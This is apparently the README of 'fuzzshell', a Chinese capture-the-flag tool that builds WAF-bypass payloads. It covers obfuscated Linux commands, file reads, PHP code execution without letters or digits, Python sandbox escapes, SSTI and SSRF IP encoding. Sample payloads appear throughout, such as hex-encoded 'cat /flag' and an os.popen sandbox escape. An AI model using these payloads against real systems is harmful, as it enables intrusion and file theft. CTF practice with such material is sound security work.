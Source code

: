 # fuzzshell 
## 如何可以提供笔记或者WP 请加 QQ: 2741676608 助力工具开发
## 如果有更多payload 方法，可以提交 Issues

![图片](https://github.com/user-attachments/assets/2e4b0ccd-39c6-48cb-b65a-df22c5eb5650)

## 视频教程
视频教程: https://youtu.be/LAFNWY7c_9E 

https://www.bilibili.com/video/BV1xVy5YiEim/



## 使用步骤
1.第一行为输入命令，文件地址，或者其他数据

2.第二行为黑名单，用 "," 隔开如： flag,eval,cat,system ，然后点击黑名单，会清除输出中存在黑名单的数据

3.然后点击去重。

4.点击复制后导入到burpsuite进行fuzz



## 功能说明
- 黑名单 不支持正则,需要将被过滤的字符用 `,` 隔开 如  ` flag,eval,cat,system,php` （注意最后面不能有`,`逗号） 然后点击黑名单，会按行清除输出中存在黑名单的数据
  
  可以用以下脚本提取
  
  python
  ``` python
  import re

  # 定义过滤规则
  pattern = r'[A-Zd-z\\. /*$#@!+^]'

  # 初始化两个列表
  filtered_chars = []
  unfiltered_chars = []

  # 遍历所有ASCII字符
  for i in range(128):
      char = chr(i)
      if re.search(pattern, char):
          filtered_chars.append(char)
      else:
          unfiltered_chars.append(char)

  #print("Filtered characters:", filtered_chars)
  for i in filtered_chars:
      print(i, end=",")
  #print("Unfiltered characters:", unfiltered_chars)

  ```
  php
  ``` php
  $filtered_chars = [];

  for ($ascii = 0; $ascii < 256; $ascii++) {
      if (!preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is', chr($ascii))) {
         $filtered_chars[] = chr($ascii);
    }
  }

  echo implode(',', $filtered_chars);
  ```
  
- 命令混淆： 对linux命令进行简单的混淆 `cat /flag` >> &#96;echo 636174202f666c6167 | xxd -r -p&#96;
- 读文件+混淆： 不需要输入命令，输入文件的地址即可如/flag (或者/f* /f???) 
- 读文件：只输出一些能查看文件的命令不进行混淆 不需要输入命令，输入文件的地址即可如/flag
- php读文件：题目环境存在include()文件包含的情况下使用 不需要输入命令，输入文件的地址即可如/flag
- php代码执行：题目环境中存在eval()等情况下使用

  - 加入了 无字母数字RCE(异或和取反等方法) 以及 无参数+无字母数字RCE (类似于`system(pos(next(getallheaders())));` >>` [~%8C%86%8C%8B%9A%92][!%FF]([~%8F%90%8C][!%FF]([~%91%9A%87%8B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]())));`)
- 八进制编码：
- 十六进制编码：
- unicode编码:对输出内容进行unicode编码
- IP编码：ipv4地址编码，SSRF使用
- 沙箱逃逸：参考https://github.com/Macr0phag3/parselmouth ,  在第一栏输入`__import__('os').popen('cat /flag').read()` 第二栏输入黑名单  `__,os,pop,system` 点击输出自动绕WAF

沙箱逃逸功能中 ，修改 https://github.com/Macr0phag3/parselmouth 项目 ，实现该项目未实现的功能 如
 ` '__buil''tins__' -> '%c%c%c%c%c%c%c%c%c%c%c%c' % (95, 95, 98, 117, 105, 108, 116, 105, 110, 115, 95, 95) `
 
`黑名单 ['read','popen','s','\\'] >> getattr(getattr(__import__('o'+'%c'%115),'p'+'open')('calc'),('r'+'ead'))()`
由原项目的 103
![图片](https://github.com/user-attachments/assets/284c53f0-9ea9-4202-9304-a241e085e673)
 增加为 116
![图片](https://github.com/user-attachments/assets/149e7304-b0cd-4145-b81c-ed2d7ee79f95)

- SSTI：参考https://github.com/Marven11/Fenjing ， 在第一栏输入 `cat /flag` 第二栏输入  `_,os,{{,}},eavl,subprocess` 点击输出自动绕WAF
- phpinfo信息 ：如果存在phpinfo页面，可以将burpsuite的数据包内容 或者 浏览器右键查看页面源代码全选 复制到第一栏 ，点击输出即可 参考  https://github.com/LxxxSec/HackPhpinfo
- php函数分析：依赖于 php_rules.json ，内容暂时不多，如果你可以补充可以提交 Issues，将黑名单内容用 `,`逗号隔开 点击输出 就能输出一些可用函数或者 payload
![图片](https://github.com/user-attachments/assets/f91009c3-57f2-4798-8164-841b82cd669b)

## 微步

  ![图片](https://github.com/user-attachments/assets/a0a6f2e0-6724-4ce4-b4da-b19024a8b7fa)
  
## 请我喝菠萝甜心橙
![图片](https://github.com/user-attachments/assets/2c65dd24-52c4-4e25-aaff-4aae5938fa2c)

